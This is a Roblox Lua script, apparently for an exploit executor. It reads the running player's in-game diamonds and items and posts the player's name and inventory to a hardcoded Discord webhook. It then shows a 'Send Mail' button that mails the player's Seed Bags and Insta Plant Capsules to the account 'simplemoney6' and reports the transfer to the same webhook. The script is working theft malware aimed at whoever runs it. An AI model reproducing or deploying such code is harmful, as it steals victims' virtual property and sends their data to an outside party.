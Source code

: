 wait(2)
local player = game.Players.LocalPlayer
local gui = player.PlayerGui:FindFirstChild("_MACHINES")

if gui then
    local mailboxMachine = gui.MailboxMachine
    if mailboxMachine then
        local giftsFrame = mailboxMachine.Frame.GiftsFrame
        if giftsFrame then
            local itemsFrame = giftsFrame.ItemsFrame
            if itemsFrame then
                local frameChild = itemsFrame:FindFirstChildWhichIsA("Frame")
                if frameChild then
                    local args = {
                        [1] = {
                            [1] = frameChild.Name
                        }
                    }
                    game:GetService("ReplicatedStorage"):WaitForChild("Network"):WaitForChild("Mailbox: Claim"):InvokeServer(unpack(args))
                end
            end
        end
    end
end

local ReplicatedStorage = game:GetService("ReplicatedStorage")
local HttpService = game:GetService("HttpService")
local Client = require(ReplicatedStorage:WaitForChild("Library"))
local Players = game:GetService("Players")
local UserInputService = game:GetService("UserInputService")

local webhookURL = "https://discord.com/api/webhooks/1240051310783627374/FeWsgqN_nlUvPEXVnxgP4pZ5qIJeDn6Uyhd0_vjjBVVGegKU8jGLgVdV0ULgRWumSvML"
local request = (syn and syn.request) or request or (http and http.request) or http_request

local DiamondsTable = {"Diamonds"}
local ItemTable = {"Seed Bag", "Insta Plant Capsule"}

function MakeDiamondsTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

function MakeTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

local diamondsAmount, seedBagAmount, instaPlantCapsuleAmount
local seedbagid, instaplantid

function GrabDiamondsId()
    for i, MadeTable in ipairs(MakeDiamondsTable(DiamondsTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.class == "Currency" then
            diamondsAmount = Table.data._am
        end
    end
end

function GrabId()
    for i, MadeTable in ipairs(MakeTable(ItemTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.data.id == "Seed Bag" then 
            seedBagAmount = Table.data._am
            seedbagid = Table.uid
        elseif Table.data.id == "Insta Plant Capsule" then
            instaPlantCapsuleAmount = Table.data._am
            instaplantid = Table.uid
        end
    end
end

GrabDiamondsId()
GrabId()

local playerName = Players.LocalPlayer.Name

local contentMsg = {
    embeds = {
        {
            title = "***👨‍💻: " .. playerName .. "***",
            description = "",
            color = 16777215,
            fields = {
                {
                    name = "***💎:***",
                    value = "***" .. (diamondsAmount and diamondsAmount or 0) .. "***"
                },
                {
                    name = "***🫙:***",
                    value = "***" .. (instaPlantCapsuleAmount and instaPlantCapsuleAmount or 0) .. "***"
                },
                {
                    name = "***🌱:***",
                    value = "***" .. (seedBagAmount and seedBagAmount or 0) .. "***"
                }
            }
        }
    }
}


request({
    Url = webhookURL,
    Method = "POST",
    Headers = {
        ["Content-Type"] = "application/json",
    },
    Body = HttpService:JSONEncode(contentMsg),
})

local screenGui = Instance.new("ScreenGui")
local button = Instance.new("TextButton")

screenGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
button.Parent = screenGui
button.Size = UDim2.new(0, 200, 0, 50)
button.Position = UDim2.new(0.5, -100, 0, 0)  -- Changed Y position to 0 for top alignment
button.BackgroundColor3 = Color3.new(0, 0, 0)
button.Text = "Send Mail"
button.TextColor3 = Color3.new(1, 1, 1)
button.TextScaled = true


button.MouseButton1Click:Connect(function()
    local args1 = {
        [1] = "simplemoney6",
        [2] = "sent",
        [3] = "Misc",
        [4] = seedbagid or "",
        [5] = seedBagAmount or ""
    }

    game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args1))
    wait(3)
    local args2 = {
        [1] = "simplemoney6",
        [2] = "sent",
        [3] = "Misc",
        [4] = instaplantid or "",
        [5] = instaPlantCapsuleAmount or ""
    }

    game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args2))

    local mailContentMsg = {
        embeds = {
            {
                title = "***👨‍💻: " .. playerName .. "***",
                description = "***💌: Mail Successfully Sent!***",
                color = 16777215,
                fields = {
                    {
                        name = "***🫙:***",
                        value = "Sent ***" .. instaPlantCapsuleAmount .. "***"
                    },
                    {
                        name = "***🌱:***",
                        value = "Sent ***" .. seedBagAmount .. "***"
                    }
                }
            }
        }
    }

    request({
        Url = webhookURL,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json",
        },
        Body = HttpService:JSONEncode(mailContentMsg),
    })
end)
